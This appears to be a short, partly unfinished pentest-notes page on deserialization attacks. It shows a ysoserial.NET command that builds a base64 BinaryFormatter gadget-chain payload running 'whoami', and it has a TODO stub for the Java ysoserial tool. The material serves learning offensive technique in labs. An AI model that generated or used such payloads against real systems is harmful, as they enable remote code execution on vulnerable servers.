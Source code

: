 ```yaml
---
description: >-
  Deserialization Attack
title: Deserialization Attack            # Add title here
date: 2022-11-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Deserialization Attack]                     # Change Templates to Writeup
tags: [exploitation, deserialization attack]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Ysoserial.NET
[ysoserial.NET](https://github.com/pwntester/ysoserial.net/releases/tag/v1.35) this tool only works for Windows, after download it we need to identify the format of the binary or program running the code (-g) and the format (-f) that has the deserialization/serialization vulnerability:

```powershell
C:\Users\Administrator\Desktop\Release>ysoserial.exe -g WindowsIdentity -f BinaryFormatter -o base64 -c "whoami"
AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFs...
dGdVkyVStEUW84TDA5aWFtVmpkRVJoZEdGUWNtOTJhV1JsY2o0TAs=
```
Example:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:ysoserial-net)

### Ysoserial.jar
[ysoserial.jar](https://github.com/frohoff/ysoserial/releases) for java deserialization

TODO